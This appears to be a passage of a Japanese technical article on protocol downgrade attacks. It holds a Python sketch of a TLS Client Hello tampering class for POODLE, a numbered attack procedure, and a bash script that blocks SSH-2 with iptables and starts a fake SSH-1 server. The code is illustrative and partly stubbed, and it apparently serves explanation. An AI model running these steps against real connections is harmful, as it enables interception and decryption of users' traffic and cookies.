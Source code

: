 #### POODLE攻撃（SSL 3.0）
```python
# 攻撃シナリオ
class TLSDowngradeAttack:
    def __init__(self):
        self.target_version = "SSL 3.0"
        self.vulnerability = "POODLE"
    
    def intercept_handshake(self, client_hello):
        # Client Helloメッセージを改ざん
        modified_hello = client_hello.copy()
        
        # サポートバージョンからTLS 1.x を削除
        modified_hello['supported_versions'] = ['SSL 3.0']
        
        # 暗号スイートも制限
        modified_hello['cipher_suites'] = ['TLS_RSA_WITH_RC4_128_MD5']
        
        return modified_hello
    
    def exploit_vulnerability(self, encrypted_data):
        # SSL 3.0のCBC暗号化の脆弱性を悪用
        # POODLE攻撃でパディングオラクルを利用
        return self.decrypt_using_poodle(encrypted_data)
```

#### 実際の攻撃手順
```
1. 攻撃者がクライアントとサーバー間の通信を傍受
2. Client HelloメッセージのTLSバージョンリストを改ざん
3. SSL 3.0のみをサポートしているように偽装
4. サーバーがSSL 3.0を選択
5. POODLE攻撃でHTTPクッキーなどを復号化
```

### 2. SSH プロトコルダウングレード

#### SSH-1 強制攻撃
```bash
# 攻撃ツールの例
#!/bin/bash

# SSH-2接続を妨害
iptables -I INPUT -p tcp --dport 22 -m string --string "SSH-2.0" --algo bm -j DROP

# SSH-1のみ許可
echo "Protocol 1" >> /tmp/fake_sshd_config

# 偽のSSHサーバーを起動
/usr/sbin/sshd -f /tmp/fake_sshd_config -D
```
